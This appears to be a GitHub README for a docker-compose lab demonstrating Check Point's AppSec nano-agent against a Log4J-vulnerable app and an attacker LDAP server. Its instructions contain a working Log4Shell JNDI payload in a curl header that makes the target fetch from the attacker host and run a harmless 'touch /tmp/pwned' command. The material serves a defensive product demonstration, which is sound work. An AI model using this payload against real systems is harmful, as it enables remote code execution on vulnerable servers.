 # Check Point CloudGuard AppSec demo
 
 This is a simple docker-compose environment for deploy a Check Point AppSec embedded nano-agent demo.  
 It will deploy 4 containers, an NGINX reverse proxy, an agent-container (the nano-agent), Log4J vulnerable App and Attacker with malicious LDAP.
 The LDAP malicious server is builded at moment the creation.

You will reach all the Vulnerable application with the exposed 80 port from the NGINX server, the default.conf file already redirects all the request to the app.

## Instructions:
 
* Clone the repository
* From a machine with docker and docker-compose installed, run:  
`  export TOKEN=<your agent token>`  
`  docker-compose up `  
`  from another machine run "curl "http://docker host ip address"" and if you recieve "status":400,"error":"Bad Request","path":"/" as response, the server is properly listening`
`  from the same machine now run "curl "http://docker host ip address":8080 -H 'X-Api-Version: ${jndi:ldap://malicious:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'" this last request inject the LDAP call in the log and the Log4J vulnerable dependency try to execute it, connecting to the malicious server and executing a "touch /tmp/pwned" command`
`  in the docker host we can run "docker ps" and look for a container with the name log4shell-log4shell grab the ID and run "docker logs -f "ID of container"" you will see the logs of the server when executes the command`
`  in the docker host again we can run with the same container ID 'docker exec "ID of container" ls /tmp/' and you will see the file created by the attack`
`  docker-compose down `  
 

> Notes: 
> There are two ways to run docker compose: `docker-compose` and `docker compose`. Using `docker compose` (with a space, not a hyphen) is 'experimental' from a Docker perspective and seems to decide on its own value for IPC configuration and breaks this setup. Use `docker-compose` please :).
> I you want to learn more about the Reverse Proxy, you can see the 'default' file inside the /nginx-reverse-proxy folder, this is mounted to the container to provide Host Rules and Ingress Routes
